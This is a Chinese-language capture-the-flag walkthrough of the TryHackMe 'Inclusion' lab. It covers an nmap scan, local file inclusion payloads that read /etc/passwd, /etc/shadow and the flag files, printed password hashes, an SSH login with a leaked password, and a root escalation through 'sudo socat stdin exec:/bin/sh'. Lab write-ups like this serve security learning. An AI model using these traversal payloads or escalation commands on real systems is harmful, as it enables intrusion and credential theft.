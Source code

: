 # 服务发现
```
┌──(root💀kali)-[~/tryhackme/inclusion]
└─#  nmap -sV -Pn 10.10.161.161                         
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-22 22:26 EDT
Nmap scan report for 10.10.161.161
Host is up (0.31s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.22 seconds
```
# 利用LFI查看/etc/passwd
payload :```http://10.10.161.161/article?name=../../../../etc/passwd```

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:109:1::/var/cache/pollinate:/bin/false 
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash 
# falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 

```

# 查看/etc/shadow
payload :```http://10.10.161.161/article?name=../../../../etc/shadow```

```
root:$6$mFbzBSI/$c80cICObesNyF9XxbF6h6p6U2682MfG5gxJ5KtSLrGI8766/etwzBvppTuug6aLoltiSmeqdIaEUg6f/NLYDn0:18283:0:99999:7::: daemon:*:17647:0:99999:7::: 
 bin:*:17647:0:99999:7::: 
 sys:*:17647:0:99999:7::: 
 sync:*:17647:0:99999:7::: 
 games:*:17647:0:99999:7::: 
 man:*:17647:0:99999:7::: 
 lp:*:17647:0:99999:7::: 
 mail:*:17647:0:99999:7::: 
 news:*:17647:0:99999:7::: 
 uucp:*:17647:0:99999:7::: 
 proxy:*:17647:0:99999:7::: 
 www-data:*:17647:0:99999:7::: 
 backup:*:17647:0:99999:7::: 
 list:*:17647:0:99999:7::: 
 irc:*:17647:0:99999:7::: 
 gnats:*:17647:0:99999:7::: 
 nobody:*:17647:0:99999:7::: 
 systemd-network:*:17647:0:99999:7::: 
 systemd-resolve:*:17647:0:99999:7::: 
 syslog:*:17647:0:99999:7::: 
 messagebus:*:17647:0:99999:7::: 
 _apt:*:17647:0:99999:7::: 
 lxd:*:18281:0:99999:7::: 
 uuidd:*:18281:0:99999:7::: 
 dnsmasq:*:18281:0:99999:7::: 
 landscape:*:18281:0:99999:7::: 
 pollinate:*:18281:0:99999:7::: falconfeast:$6$dYJsdbeD$rlYGlx24kUUcSHTc0dMutxEesIAUA3d8nQeTt6FblVffELe3FxLE3gOID5nLxpHoycQ9mfSC.TNxLxet9BN5c/:18281:0:99999:7::: sshd:*:18281:0:99999:7::: mysql:!:18281:0:99999:7::: 

 ```

可以看到爆出了```root```和```falconfeast```的加密密码,我们放到john中破解,但是跑了好久沒有破解出來

留意/etc/passwd这一行
```# falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin ```
rootpassword就是falconfeast的明文密码，但是被注释了

用```falconfeast：rootpassword```登录，拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/inclusion]
└─#  ssh falconfeast@10.10.161.161       
The authenticity of host '10.10.161.161 (10.10.161.161)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.161.161' (ECDSA) to the list of known hosts.
falconfeast@10.10.161.161's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 23 09:12:49 IST 2021

  System load:  0.08              Processes:           86
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.161.161
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ cat user.txt 
60989655118397345799
```

# 查看sudo -l查看本账号的特殊权限
利用socat提权到root，拿到root.txt
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /root/root.txt
42964104845495153909
```


# # 第二种拿flag的方法
# 尝试用LFI读取本地user和root flag,居然读到了-_-！

user.txt
payload:```http://10.10.161.161/article?name=../../../../home/falconfeast/user.txt```

root.txt
payload:```http://10.10.161.161/article?name=../../../../root/root.txt```